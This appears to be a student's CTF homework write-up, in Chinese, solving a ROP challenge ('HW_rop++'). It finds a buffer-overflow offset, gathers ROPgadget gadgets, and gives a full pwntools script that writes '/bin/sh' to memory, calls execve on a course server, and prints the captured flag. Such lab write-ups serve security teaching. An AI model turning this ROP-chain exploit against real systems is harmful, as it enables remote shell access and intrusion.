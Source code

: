 # HW_rop++

1. 先用 checksec 確認檔案保護機制，這題沒有 PIE 保護，但有 Canary 及 NX 。

![截圖 2022-11-28 下午8.15.30.png](HW_rop++%20b03a7526f48b400998d6259fa0abdffe/%25E6%2588%25AA%25E5%259C%2596_2022-11-28_%25E4%25B8%258B%25E5%258D%25888.15.30.png)

1. 檢查原始碼，發現有一個很明顯的 buffer overflow 可以利用，buf[0x10] 的長度是 0x10 ，但是下面的 read 卻可以讀入 0x200 個 byte，因此我們在這邊只要找到 buf 在 stack 上面跟 return address 的距離，就可以讓程式植人我們設計好的 payload。

![截圖 2022-12-01 下午1.49.28.png](HW_rop++%20b03a7526f48b400998d6259fa0abdffe/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25881.49.28.png)

1. 接下來我們先找到 overflow 的 offset，先讓程式執行到輸入的地方，並隨意輸入字串，輸入完成後，可以看到 rsi 的位置跟 rbp 的位置差了 0x20 個 byte，然後會要再加上 old rbp 0x8 byte 就可以得到 buf 跟 return address 的距離是 0x28。所以 offset 就是 0x28。另外在解這題的過程中，因為 offset 一直找錯，所以有去練習 buffer overflow 的題目練習找 offset，還發現如果 offset 找錯，可以用 IDA pro 來確認自己輸入的地方 跟 return address 的距離是不是跟自己找到的一樣。

![截圖 2022-11-30 下午12.40.23.png](HW_rop++%20b03a7526f48b400998d6259fa0abdffe/%25E6%2588%25AA%25E5%259C%2596_2022-11-30_%25E4%25B8%258B%25E5%258D%258812.40.23.png)

![截圖 2022-12-01 下午3.52.13.png](HW_rop++%20b03a7526f48b400998d6259fa0abdffe/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25883.52.13.png)

1. 這題沒有 Seccomp 的限制，所以可以直接想辦法取得 shell，而取得的方式就是按照題目的提示使用 ROP 的方式，要有一段程式碼是可以執行 sys_execve("/bin/sh", NULL, NULL)，但這邊會要先將 “/bin/sh” 字串寫入記憶體，然後再利用 execve code 去呼叫這個 system call。因為要先將字串寫入記憶體，所以要先在記憶體中找一段可讀寫的位置，用 readelf 找到 .data = 0x4c50e0 這個位置。
    
    ![截圖 2022-12-01 下午2.36.02.png](HW_rop++%20b03a7526f48b400998d6259fa0abdffe/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25882.36.02.png)
    

1. 接下來就是找可以利用的 gadget，先用 “ROPgadget --multibr --binary ./chal > dump，把 ROPgadget  的資料存下來，然後用 “cat dump | grep " pop x ; ret ” ，依依尋找可以利用的 pop rdi、pop rsi、pop rdx、pop rax、syscall 的 gedget ，而除了 “pop rdx ; ret” ，沒有找到，其他都有找到，這邊雖然沒有 “pop rdx ; ret” 但有 “pop rdx ; pop rbx ; ret” ，有了這些，基本上就可以控制暫存器的值，並做各種 syscall。

![截圖 2022-12-01 下午3.23.48.png](HW_rop++%20b03a7526f48b400998d6259fa0abdffe/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25883.23.48.png)

![截圖 2022-12-01 下午3.24.05.png](HW_rop++%20b03a7526f48b400998d6259fa0abdffe/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25883.24.05.png)

![截圖 2022-12-01 下午3.24.33.png](HW_rop++%20b03a7526f48b400998d6259fa0abdffe/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25883.24.33.png)

![截圖 2022-12-01 下午3.25.02.png](HW_rop++%20b03a7526f48b400998d6259fa0abdffe/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25883.25.02.png)

![截圖 2022-12-01 下午3.27.23.png](HW_rop++%20b03a7526f48b400998d6259fa0abdffe/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25883.27.23.png)

1. 然後按照前面的邏輯組成這題要用的 ROPchain，主要就兩個步驟，第一個是將 /bin/sh\x00 寫入找好的 memory 位置，第二個是用 syscall 呼叫 execve。第一個步驟，因為要將字串放到一個記憶體位置，所以會需要一個 “mov qword ptr [ register 1], register 2 ; ret”，而因為 rdi、rsi、rdx、rax、rbx 的值我都可以控制，所以 register 1 跟  register 2 只要是其中任一個都可以，而我用指令 “cat dump | grep "mov qword ptr \[.*\],” 找到的是
mov qword ptr \[rsi\], rax ; ret，所以第一格步驟就沒問題了，第二個步驟就是經典的 execve syscall 呼叫，下面是我寫出來的 ROPchain。

![截圖 2022-12-01 下午3.32.50.png](HW_rop++%20b03a7526f48b400998d6259fa0abdffe/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25883.32.50.png)

```python
ROP = flat( 
    #write '/bin/sh\x00' to memory
    pop_rsi, buf,
    pop_rax, b'/bin/sh\x00',
    mov_ptr_rsi_rax,

    #sys_execve("/bin/sh", NULL, NULL); [rdi:buf, rsi:0 ,rdx:0 ,rax:0x3b]
    pop_rdi, buf,
    pop_rsi, 0,
    pop_rdx_rbx, 0, 0,
    pop_rax, 0x3b,
    syscall,
)
```

1. 有了 offset 的 padding  跟 ROPchain ，就可以組成 Payload 送出，然後成功取得 shell，並開啟藏在 “home/chal/” 的 flag，取得 FLAG{chocolate_c378985d629e99a4e86213db0cd5e70d}。

```python
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']
r = remote('edu-ctf.zoolab.org', 10003)
#r = process("/home/kali/temp/rop++/share/chal")
#gdb.attach(r, gdbscript='b *0x401798')

pop_rdi = 0x401e3f 
pop_rsi = 0x409e6e 
mov_ptr_rsi_rax = 0x449fa5

pop_rdx_rbx = 0x47ed0b
pop_rax = 0x447b27
syscall = 0x414506 

buf = 0x4c50e0
ROP = flat( 
    #write '/bin/sh\x00' to memory
    pop_rsi, buf,
    pop_rax, b'/bin/sh\x00',
    mov_ptr_rsi_rax,

    #sys_execve("/bin/sh", NULL, NULL); [rdi:buf, rsi:0 ,rdx:0 ,rax:0x3b]
    pop_rdi, buf,
    pop_rsi, 0,
    pop_rdx_rbx, 0, 0,
    pop_rax, 0x3b,
    syscall,
)

print(b'A'*0x28 + ROP)
r.sendlineafter(b'show me rop\n> ', b'A'*0x28+ ROP)
r.interactive()
```

![截圖 2022-12-01 下午3.46.50.png](HW_rop++%20b03a7526f48b400998d6259fa0abdffe/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25883.46.50.png)

![截圖 2022-12-01 下午3.47.34.png](HW_rop++%20b03a7526f48b400998d6259fa0abdffe/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25883.47.34.png)